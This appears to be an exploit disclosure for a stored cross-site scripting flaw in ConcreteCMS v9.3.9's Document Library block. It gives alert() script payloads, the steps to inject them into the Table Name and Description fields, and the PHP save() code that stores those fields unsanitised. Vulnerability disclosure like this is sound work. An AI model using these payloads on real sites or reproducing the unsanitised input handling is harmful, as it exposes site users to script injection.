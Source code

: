 # Exploit Title: Concretecms v9.3.9 - Cross-Site Scripting (XSS)
## Date: 3/13/2025
## Vendor Homepage: https://github.com/concretecms/concretecms
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Concretecms
## Version: v9.3.9
## Exploit Description:
## ConcreteCMS v9.3.9 suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the Table Name field、Table Description field when adding a Document Library block. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<script>alert('Name');</script>
<script>alert('Description');</script>
```

1. Log in as a user with page editing privileges.
2. Click "add content to the page" in the top navigation.
3. Select the Document Library block , drag and drop it to the page.
4. Add <script>alert('...');</script> to the Table Name field、Table Description field and then click ADD,the xss vulnerability appears.

![](./payload-poc11.png)

#### Effect

![](./effect-document-library.png)

Potentially problematic source code:
```php
public function save($args)
    {
        $args += [
            'folderID' => null,
            'viewProperties' => null,
            'searchProperties' => null,
            'expandableProperties' => null,
            'fsID' => null,
            'setMode' => null,
            'tags' => null,
            'orderBy' => null,
            'displayLimit' => null,
            'maxThumbWidth' => null,
            'maxThumbHeight' => null,
            'heightMode' => null,
            'downloadFileMethod' => null,
            'fixedHeightSize' => null,
            'headerBackgroundColor' => null,
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => null,
            'headerTextColor' => null,
            'tableName' => '',
            'tableDescription' => '',
            'rowBackgroundColorAlternate' => null,
        ];

        $data = [
            'folderID' => $args['folderID'],
            'viewProperties' => json_encode(is_array($args['viewProperties']) ? $args['viewProperties'] : []),
            'searchProperties' => json_encode(is_array($args['searchProperties']) ? $args['searchProperties'] : []),
            'expandableProperties' => json_encode(is_array($args['expandableProperties']) ? $args['expandableProperties'] : []),
            'setIds' => json_encode(is_array($args['fsID']) ? $args['fsID'] : []),
            'setMode' => $args['setMode'] == 'all' ? 'all' : 'any',
            'onlyCurrentUser' => empty($args['onlyCurrentUser']) ? 0 : 1,
            'allowInPageFileManagement' => empty($args['allowInPageFileManagement']) ? 0 : 1,
            'allowFileUploading' => empty($args['allowFileUploading']) ? 0 : 1,
            'tags' => $args['tags'],
            'orderBy' => $args['orderBy'],
            'displayLimit' => $args['displayLimit'],
            'displayOrderDesc' => empty($args['displayOrderDesc']) ? 0 : 1,
            'maxThumbWidth' => (int) $args['maxThumbWidth'],
            'maxThumbHeight' => (int) $args['maxThumbHeight'],
            'enableSearch' => empty($args['enableSearch']) ? 0 : 1,
            'heightMode' => $args['heightMode'] == 'fixed' ? 'fixed' : 'auto',
            'downloadFileMethod' => $args['downloadFileMethod'] == 'force' ? 'force' : 'browser',
            'fixedHeightSize' => (int) $args['fixedHeightSize'],
            'headerBackgroundColor' => $args['headerBackgroundColor'],
            'addFilesToSetID' => 0,
            'headerBackgroundColorActiveSort' => $args['headerBackgroundColorActiveSort'],
            'headerTextColor' => $args['headerTextColor'],
            'tableName' => $args['tableName'],
            'tableDescription' => $args['tableDescription'],
            'tableStriped' => empty($args['tableStriped']) ? 0 : 1,
            'rowBackgroundColorAlternate' => empty($args['tableStriped']) ? '' : $args['rowBackgroundColorAlternate'],
            'hideFolders' => (int) !filter_var(array_get($args, 'showFolders'), FILTER_VALIDATE_BOOLEAN),
        ];
        if ((int) $args['addFilesToSetID'] > 0) {
            $fs = \FileSet::getByID($args['addFilesToSetID']);
            if (is_object($fs)) {
                $fsp = new \Permissions($fs);
                if ($fsp->canAddFiles() && $fsp->canSearchFiles()) {
                    $data['addFilesToSetID'] = $fs->getFileSetID();
                }
            }
        }
        parent::save($data);
    }
```